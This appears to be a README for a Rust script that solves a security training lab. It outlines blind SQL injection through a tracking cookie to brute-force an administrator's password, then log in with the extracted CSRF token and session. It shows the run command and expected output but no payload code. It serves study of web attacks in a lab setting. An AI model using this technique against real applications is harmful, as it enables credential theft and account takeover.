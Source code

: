 ## Hack Steps

1. Inject payload into 'TrackingId' cookie to determine the length of administrator's password based on conditional responses
2. Modify the payload to brute force the administrator's password 
3. Fetch the login page
4. Extract the csrf token and session cookie
5. Login as the administrator
6. Fetch the administrator profile

## Run Script

1. Change the URL of the lab
2. Start script

```
~$ cargo run
```

## Expected Output

```
⦗#⦘ Injection point: TrackingId
⦗1⦘ Determining password length.. 
❯❯ Checking if length = 5 
❯❯ Checking if length = 17 
        ............
❯❯ Checking if length = 20 [ Correct length: 20 ]
⦗2⦘ Brute forcing password.. 
❯❯ Checking if char at position 7 =  j [ Correct password: 5qho22j ]
❯❯ Checking if char at position 15 =  a [ Correct password: 5qho22jmmlzzh0a ]
        ............
❯❯ Checking if char at position 20 =  u [ Correct password: 5qho22jmmlzzh0a3g0ju ]
⦗3⦘ Fetching the login page.. OK
⦗4⦘ Extracting the csrf token and session cookie.. OK
⦗5⦘ Logging in as the administrator.. OK
⦗6⦘ Fetching the administrator profile.. OK
🗹 The lab should be marked now as solved
```
